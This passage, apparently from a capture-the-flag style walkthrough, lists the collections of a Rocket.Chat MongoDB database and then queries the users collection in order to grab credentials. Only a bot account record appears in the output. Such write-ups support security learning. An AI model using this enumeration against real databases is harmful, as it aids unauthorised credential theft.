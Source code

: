 meteor_oauth_pendingRequestTokens
migrations
rocketchat__trash
rocketchat_apps
rocketchat_apps_logs
rocketchat_apps_persistence
rocketchat_avatars
rocketchat_avatars.chunks
rocketchat_avatars.files
rocketchat_credential_tokens
rocketchat_cron_history
rocketchat_custom_emoji
rocketchat_custom_sounds
rocketchat_custom_user_status
rocketchat_export_operations
rocketchat_federation_dns_cache
rocketchat_federation_keys
rocketchat_federation_room_events
rocketchat_federation_servers
rocketchat_import
rocketchat_integration_history
rocketchat_integrations
rocketchat_invites
rocketchat_livechat_agent_activity
rocketchat_livechat_custom_field
rocketchat_livechat_department
rocketchat_livechat_department_agents
rocketchat_livechat_external_message
rocketchat_livechat_inquiry
rocketchat_livechat_office_hour
rocketchat_livechat_page_visited
rocketchat_livechat_trigger
rocketchat_livechat_visitor
rocketchat_message
rocketchat_message_read_receipt
rocketchat_oauth_apps
rocketchat_oembed_cache
rocketchat_permissions
rocketchat_reports
rocketchat_roles
rocketchat_room
rocketchat_sessions
rocketchat_settings
rocketchat_smarsh_history
rocketchat_statistics
rocketchat_subscription
rocketchat_uploads
rocketchat_user_data_files
rocketchat_webdav_accounts
system.views
ufsTokens
users
usersSessions
view_livechat_queue_status
```
### Gaining Access
Ah! It's the database of ```rocketchat```! Let's see if we can grab some credentials.

```
rs0:PRIMARY> db.users.find()
{ "_id" : "rocket.cat", "createdAt" : ISODate("2021-08-10T19:44:00.224Z"), "avatarOrigin" : "local", "name" : "Rocket.Cat", "username" : "rocket.cat", "status" : "online", "statusDefault" : "online", "utcOffset" : 0, "active" : true, "type" : "bot", "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"), "roles" : [ "bot" ] }